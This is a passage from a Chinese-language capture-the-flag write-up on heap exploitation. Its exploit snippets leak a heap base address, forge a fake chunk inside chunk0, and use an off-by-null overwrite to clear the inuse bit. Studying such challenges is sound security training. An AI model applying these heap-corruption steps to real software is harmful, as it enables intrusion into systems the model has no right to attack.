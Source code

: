 ```bash
}
```

### 详细流程

先泄露堆地址

```bash
ru('and this line will make the game easier\n')
heap_base=int(r(14),16)-0x2a0
leak('heap_base ',heap_base)
```

[![](assets/1701606615-08019e34b4dc48bf9b45635639b66058.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213539-dd8480de-83bb-1.png)  
chunk0 从 fd 位置开始伪装，然后后续 chunk1 和 chunk2

```bash
add(0x418,p64(0)+p64(0x1880)+p64(heap_base+0x2c0)+p64(heap_base+0x2c0)) #idx0
add(0x408,'aaaa')
add(0x408,'aaaa')
add(0x408,'aaaa')
add(0x418,'aaaa')
add(0x418,'aaaa') #idx5
add(0x4f8,'bbbb')
add(0x4f8,'bbbb')
```

[![](assets/1701606615-e079b0bd4514d43c58df728a83fbcedd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213616-f36778a2-83bb-1.png)  
用 off by null 改 inuse，伪装 chunk
